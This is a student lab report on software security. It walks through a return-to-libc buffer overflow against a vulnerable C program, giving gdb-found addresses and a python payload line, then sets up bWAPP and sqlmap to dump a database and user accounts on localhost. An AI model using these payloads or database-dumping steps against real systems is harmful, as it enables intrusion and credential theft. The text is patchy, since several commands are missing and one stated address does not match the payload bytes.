

# LAB #1,22110041,Bui Nguyen An Khang,INSE330380E_03FIE
## Task 1
Create a vulnerbility code


Create a shell code c


Must conform to below structure:

Description text (optional)

- Compile both C programs and shellcode to executable code. 

- We need to change `void main` to `int main` in `shellcode.c`.


- Use an older shell and turn off randomly given stack value. 


- Create environmet variable `preload` with `export`.


- Stack frame of `vuln.c`.


- Use `gdb` to find the address of `system`, `exit` and `preload` variable.
  - Address of `system`: 0xf7e50db0
  - Address of `exet`: 0xf7e449e0
  - Adderss of `preload`: 0xffffde2c


- Run `vuln.out` with command:

``` 
  r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2d\xde\xff\xff')")
```

output screenshot (optional)

**Conclusion**: The final results indicate that the combination of techniques environment variable and manipulation of memory space can lead to the execution of unauthorized actions within the system. This lab not only reinforces knowledge about security and software vulnerabilities but also emphasizes the importance of writing secure code to prevent similar attacks in real-world scenarios.

## Task 2
## Install bWapp
Install and run the website


Use http://localhost:8025/install.php?install=yes to open website

### Install SQL map

Use git clone https://github.com/sqlmapproject/sqlmap.git to clone sqlmap to your computer


### Question 1:
We must need a place where we can get the database by inject our code and login seems like a great choice

Now use F12 to inspect and get cookies

Use this comment to get database

We will get the results

### Question 2
To get tables we use 


And now to get user's accounts we use

We will get these results
